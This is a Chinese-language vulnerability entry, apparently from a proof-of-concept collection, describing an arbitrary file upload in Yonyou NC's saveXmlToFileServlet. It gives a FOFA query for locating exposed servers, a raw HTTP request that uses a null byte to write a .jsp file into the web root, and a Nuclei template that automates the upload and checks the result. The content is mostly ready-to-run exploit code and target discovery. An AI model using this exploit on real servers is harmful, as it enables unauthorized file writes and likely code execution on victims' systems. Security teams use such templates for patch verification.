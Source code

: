 ## 用友NC接口saveXmlToFIleServlet存在文件上传

/portal/pt/servlet/saveXmlToFileServlet/doPost接口会保存xml文档到服务器一个路径下，默认会添加.xml后缀，通过Windows的文件名特性可截断.xml文件后缀。再通过目录穿越可上传jsp文件到nc_web目录下。


## fofa
```
title="YONYOU NC"
```


## poc
```
POST /portal/pt/servlet/saveXmlToFileServlet/doPost?pageId=login&filename=12121.jsp%00 HTTP/1.1
Host: 
Content-Type: application/octet-stream
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19

111
```

文件路径：`http://ip:port/portal/processxml/12121.jsp`

## nuclei
```nuclei
id: yonyou-uap-saveXmlToFileServlet-upload-file
info:
  name: yonyou-uap-saveXmlToFileServlet-upload-file
  author: qianbenhyu
  severity: high

http:
  - method: POST
    path:
      - "{{BaseURL}}/portal/pt/servlet/saveXmlToFileServlet/doPost?pageId=login&filename={{randstr_1}}.jsp%00"
    headers:
      Cookie: LA_K1=langid
      serverEnable: localserver
      Accept-Encoding: gzip, x-gzip, deflate
      Content-Length: 27
      Content-Type: application/octet-stream
      Content-Encoding: UTF_8
      Connection: keep-alive
      User-Agent: Apache-HttpClient/5.2.1 (Java/1.8.0_202)
    body: "{{randstr_2}}"

  - method: GET
    path:
      - "{{BaseURL}}/portal/processxml/{{randstr_1}}.jsp"
    matchers:
      - type: word
        words:
          - "{{randstr_2}}"

```
